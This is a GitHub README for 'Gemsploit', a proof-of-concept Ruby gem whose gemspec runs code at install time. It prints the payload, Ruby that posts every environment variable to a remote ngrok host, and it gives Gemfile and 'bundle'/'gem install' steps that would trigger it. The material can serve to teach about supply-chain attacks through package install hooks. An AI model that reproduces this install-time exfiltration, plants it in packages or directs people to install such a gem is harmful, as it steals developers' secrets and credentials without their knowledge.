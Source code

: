 # Gemsploit

Proof of concept for ruby bundler exploit. When this gem is installed, it posts all of your ENV files to my server.

## How it works

When a gem is installed, the code block in the `*.gemspec` file is executed. This gem contains a [malicious payload](https://github.com/KevinColemanInc/gemsploit/blob/master/gemsploit.gemspec#L41) to post all of your ENV variables to a remote server when the gem is installed (`$ bundle` or `$ gem install gemsploit`)

```ruby
  require "net/http"
  require "uri"

  uri = URI.parse("http://10cbe90f.ngrok.io/graphql")
  response = Net::HTTP.post_form(uri, ENV.to_h)
```

## Installation

Add this line to your application's Gemfile:

```ruby
gem 'gemsploit'
```

## Usage

Execute:

    $ bundle

Or install it yourself as:

    $ gem install gemsploit